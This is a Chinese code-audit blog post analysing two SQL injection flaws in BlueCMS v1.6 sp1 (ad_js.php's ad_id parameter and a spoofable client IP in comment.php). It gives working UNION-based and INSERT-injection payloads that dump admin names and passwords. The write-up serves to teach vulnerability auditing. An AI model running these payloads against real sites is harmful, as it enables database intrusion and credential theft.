 ```yaml
---
title: 代码审计之SQL注入：BlueCMSv1.6 sp1
date: 2017-03-14 19:39:02
tags: [代码审计,SQL注入]
categories: Web安全
---
```

代码审计学习
本文首发于：[]()
<!-- more -->

# 工具及环境
+ bluecms v2.1 sp1
链接：http://pan.baidu.com/s/1dFKLanR 密码：8v1c
+ seay审计系统
链接：http://pan.baidu.com/s/1dENS4KT 密码：rszt
+ 环境
PHP: 5.4.45
MYSQL: 5.5.53


# 注入一
## 审计
用seay审计系统审计一下,定位到/ad_js.php。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms1.jpg)

该条语句为
```php
$ad = $db->getone("SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id);
```

getone()是自定义的函数，用来查询数据库，代码如下：
```php
function getone($sql, $type=MYSQL_ASSOC){
  $query = $this->query($sql,$this->linkid);
  $row = mysql_fetch_array($query, $type);
  return $row;
}
```
回到ad_js.php
```php
"SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id
```
可见这里的变量 $ad_id 没有单引号保护。接下来看看这个变量的来源。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms2.jpg)

```php
$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
```
若通过GET获得ad_id则去除它两边的空白字符，否则为空。在获得了ad_id值后，接下来就直接将$ad_id送入了查询语句，没有做任何过滤，因此这里存在注入。

## 利用
+ 先查询列数

    /ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6
    报错

![](http://ojp0pjljj.bkt.clouddn.com/bluecms3.jpg)

    ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6,7,8
    报错

![](http://ojp0pjljj.bkt.clouddn.com/bluecms4.jpg)

    ad_js.php?ad_id=1+UNION+SELECT+1,2,3,4,5,6,7
    无报错，且查看源代码发现数字7有回显。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms6.jpg)

+ 提取数据
利用元数据表爆出表名
```
    ad_js.php?ad_id=1+UNION+SELECT+1,2,3,4,5,6,GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()
```
![](http://ojp0pjljj.bkt.clouddn.com/bluecms9.jpg)

+ 爆出字段

    ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6,GROUP_CONCAT(column_name) from information_schema.columns where table_name=0x626c75655f61646d696e
![](http://ojp0pjljj.bkt.clouddn.com/bluecms10.jpg)
+ 获取用户名密码

    ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6,GROUP_CONCAT(admin_name,0x3a,pwd) FROM blue_admin  
![](http://ojp0pjljj.bkt.clouddn.com/bluecms10.jpg)

# 注入二
## 审计
函数定位：
```php
function getip()
{
	if (getenv('HTTP_CLIENT_IP'))
	{
		$ip = getenv('HTTP_CLIENT_IP');
	}
	elseif (getenv('HTTP_X_FORWARDED_FOR'))
	{ //????????????????????????????ip ???
		$ip = getenv('HTTP_X_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_X_FORWARDED'))
	{
		$ip = getenv('HTTP_X_FORWARDED');
	}
	elseif (getenv('HTTP_FORWARDED_FOR'))
	{
		$ip = getenv('HTTP_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_FORWARDED'))
	{
		$ip = getenv('HTTP_FORWARDED');
	}
	else
	{
		$ip = $_SERVER['REMOTE_ADDR'];
	}
	return $ip;
}
```
直接获取了ip，并没有验证IP格式，因此我们可以伪造ip。查看一下有哪些位置调用了 getip() ，
![](http://ojp0pjljj.bkt.clouddn.com/bluecms13.jpg)

## comment.php页面
其中有如下代码

    $sql = "INSERT INTO ".table('comment')." (com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check) VALUES ('', '$id', '$user_id', '$type', '$mood', '$content', '$timestamp', '".getip()."', '$is_check')";
    $db->query($sql);

可以看到，这里执行了INSERT语句，且调用了getip()，这里存在注入。

## 利用
这是目前的留言板：
![](http://ojp0pjljj.bkt.clouddn.com/bluecms17.jpg)

在burp截包后，post参数如下：
![](http://ojp0pjljj.bkt.clouddn.com/bluecms16.jpg)
所以

    user_id=2
    id=6 即 post_id=6 对应发表留言的文章id
    type=1
    mood=6 （这个无关紧要）

为了能让把管理员账号和密码回显出来，我们不能直接在getip()的位置上直接去查询。在前面的sql语句中，content变量是会回显到页面上的，这里利用这个位置去构造payload。

payload如下：

    1','1'),('','6','2','1','6',(select concat(admin_name,':',pwd) from blue_admin),'1','1

payload分析：1','1')是为了完成第一次插入，之后的（）是为了完成第二次插入，前面的 '','6','2','1','6' 是与第一个插入语句的参数相对应。接下来，我们把查询到的账号密码放在了第六个参数即content位置，这样能实现回显。而最后的 '1','1  是要满足列数相等否则会出错，同时要注意闭合原本语句中的单引号，其中第一个 1 对应sql语句中的$timestamp，表示发表时间，这个无关紧要。

所以这样插入后完整的sql语句是：

    $sql = INSERT INTO ".table('comment')." (com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check)
      VALUES ('', '$id', '$user_id', '$type', '$mood', '$content', '$timestamp', '1','1'),('','6','2','1','6',(select concat(admin_name,':',pwd) from blue_admin),'1','1', '$is_check')";

![](http://ojp0pjljj.bkt.clouddn.com/bluecms18.jpg)
Forward后 注入成功。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms20.jpg)
